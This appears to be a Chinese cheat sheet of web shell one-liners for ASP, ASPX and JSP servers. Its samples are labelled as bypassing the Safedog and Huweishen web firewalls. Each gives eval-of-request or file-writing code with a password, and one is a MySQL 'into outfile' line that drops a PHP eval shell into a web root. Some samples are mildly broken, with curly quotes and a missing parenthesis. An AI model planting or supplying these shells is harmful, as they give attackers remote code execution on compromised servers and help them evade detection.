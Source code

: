 ### ASP过安全狗一句话

```asp
密码（pass）


<% %>


<%a=request(“zl”)%><%eval a%>
```

### ASPX系列

ASPX一句话的 过安全狗效果不怎么样

不过我认为能支持aspx 百分之8/90支持asp

```asp
<%@ Page Language = Jscript %>
<%var/-/-/P/-/-/=/-/-/“e”+“v”+/-/-/
“a”+“l”+"("+“R”+“e”+/-/-/“q”+“u”+“e”/-/-/+“s”+“t”+
“[/-/-/0/-/-/-/-/-/2/-/-/-/-/-/5/-/-/]”+
“,”+"""+“u”+“n”+“s”/-/-/+“a”+“f”+“e”+"""+")";eval
(/-/-/P/-/-/,/-/-/“u”+“n”+“s”/-/-/+“a”+“f”+“e”/-/-/);%> 密码 -7


<%@ Page Language=“Jscript”%><%eval(Request.Item[“xindong”],“unsafe”);%>


密码是webadmin
```

aspx一句话

```asp
<%@ Page Language=“Jscript” validateRequest=“false” %><%Response.Write(eval(Request.Item[“w”],“unsafe”));%>
```

## JSP

```jsp
<%if(request.getParameter(“f”)!=null)(new java.io.FileOutputStream(application.getRealPath("/")+request.getParameter(“f”))).write(request.getParameter(“t”).getBytes());%>


select ‘<?php eval($_POST[cmd];?>’ into outfile ‘C:/Inetpub/wwwroot/mysql-php/1.php’
```

### 过护卫神的

<%E=request(“1”)%>abc

123456789<%execute E%>
